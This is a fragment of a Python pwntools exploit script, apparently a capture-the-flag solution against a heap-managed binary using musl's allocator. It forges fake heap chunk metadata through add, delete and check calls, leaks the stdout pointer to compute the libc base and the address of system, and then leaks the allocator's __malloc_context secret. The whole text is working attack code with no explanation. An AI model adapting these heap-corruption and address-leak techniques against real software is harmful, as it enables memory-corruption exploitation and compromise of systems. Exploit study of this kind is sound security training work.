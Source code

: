 ```py
payload += p64(1)
payload += p64(elf_base + 0x51e0)
payload += p64(elf_base + 0x50e0)
payload += p64(0)

add(15, 0x38, payload)

payload = p64(11)
payload += p64(stdout_ptr)
payload += p64(0x38)
payload += p64(2)
payload += p64(0xdeadbeef)
payload += p64(elf_base + 0x5120)
payload += p64(elf_base + 0x5160)

add(13, 0x38, payload)
check(11)

stdout = u64(io.recv(8))
log.info('stdout = ' + hex(stdout))
libc_base = stdout - 0xAD280
sys = libc_base + libc.symbols['system']
__malloc_context = libc_base + 0xAD9C0
log.info('libc base = ' + hex(libc_base))
stdout_ptr = libc_base + 0xAD3B0

clear()

for i in range(6):
    add(i, 0x78, p64(i + 0xdeadbeef00) + b'\n')
clear()

for i in range(4):
    add(i, 0x78, p64(i + 0xdeadbeef00) + b'\n')
add(11, 0x38, p64(11 + 0xdeadbeef00) + b'\n')
add(11, 0x78, p64(11 + 0xdeadbeef00) + b'\n')
delete(3)
print(hex(heap_addr))

payload = p64(4)
payload += p64(__malloc_context)
payload += p64(0x20)
payload += p64(1)
payload += p64(elf_base + 0x51e0)
payload += p64(elf_base + 0x50e0)
payload += p64(0)

add(15, 0x38, payload)

payload = p64(11)
payload += p64(__malloc_context)
payload += p64(0x38)
payload += p64(2)
payload += p64(0xdeadbeef)
payload += p64(elf_base + 0x5120)
payload += p64(elf_base + 0x5160)

add(13, 0x38, payload)
check(11)
secret = u64(io.recv(8))
log.info('secret value = ' + hex(secret))

clear()
```